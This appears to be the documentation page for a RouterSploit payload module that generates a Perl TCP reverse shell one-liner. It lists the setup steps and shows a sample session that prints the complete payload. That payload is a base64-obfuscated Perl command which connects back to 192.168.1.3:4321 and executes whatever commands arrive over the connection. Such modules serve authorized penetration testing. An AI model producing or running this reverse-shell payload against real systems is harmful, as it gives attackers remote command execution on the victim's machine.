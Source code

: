 ## Description

Module generates payload that creates interactive tcp reverse shell by using perl one-liner. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/cmd/perl_reverse_tcp`
  3. Do: `set lhost 192.168.1.3`
  4. Do: `set lport 4321`
  5. Do: `run`
  6. Module generates perl tcp reverse shell payload

## Scenarios

```
rsf > use payloads/cmd/perl_reverse_tcp
rsf (Perl Reverse TCP One-Liner) > set lhost 192.168.1.3
[+] lhost => 192.168.1.3
rsf (Perl Reverse TCP One-Liner) > set lport 4321
[+] lport => 4321
rsf (Perl Reverse TCP One-Liner) > run
[*] Running module...
[*] Generating payload
perl -MIO -e "use MIME::Base64;eval(decode_base64('dXNlIElPO2ZvcmVhY2ggbXkgJGtleShrZXlzICVFTlYpe2lmKCRFTlZ7JGtleX09fi8oLiopLyl7JEVOVnska2V5fT0kMTt9fSRjPW5ldyBJTzo6U29ja2V0OjpJTkVUKFBlZXJBZGRyLCIxOTIuMTY4LjEuMzo0MzIxIik7U1RESU4tPmZkb3BlbigkYyxyKTskfi0+ZmRvcGVuKCRjLHcpO3doaWxlKDw+KXtpZigkXz1+IC8oLiopLyl7c3lzdGVtICQxO319Ow=='));"
```
